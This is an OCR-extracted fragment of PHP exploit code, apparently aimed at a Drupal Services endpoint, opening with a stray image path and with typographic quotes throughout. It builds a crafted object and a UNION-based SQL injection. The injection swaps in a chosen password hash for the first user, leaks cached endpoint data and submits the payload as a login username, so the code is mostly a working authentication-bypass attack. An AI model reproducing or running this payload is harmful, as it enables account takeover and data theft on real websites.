# so that $query->compile() exists and (string) $query is controlled by us.

protected $query = null;

protected $uniqueIdentifier = QID;

protected $connection;

protected $placeholder = 0;

public function __construct($sql)

{

$this->query = new DatabaseCondition($sql);

}

}

$cache_id = “services:$endpoint:resources”;

$sql_cache = “SELECT data FROM {cache} WHERE cid=’$cache_id’”;

$password_hash = ‘$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd’;

# Take first user but with a custom password

# Store the original password hash in signature_format, and endpoint cache

# in signature

$query =

“0x3a) UNION SELECT ux.uid AS uid, “ .

“ux.name AS name, ‘$password_hash’ AS pass, “ .

“ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, “ .

“ux.pass AS signature_format, ux.created AS created, “ .

“ux.access AS access, ux.login AS login, ux.status AS status, “ .

“ux.timezone AS timezone, ux.language AS language, ux.picture “ .

“AS picture, ux.init AS init, ux.data AS data FROM {users} ux “ .

“WHERE ux.uid<>(0”

;

$query = new SelectQueryExtender($query);

$data = [‘username’ => $query, ‘password’ => ‘ouvreboite’];
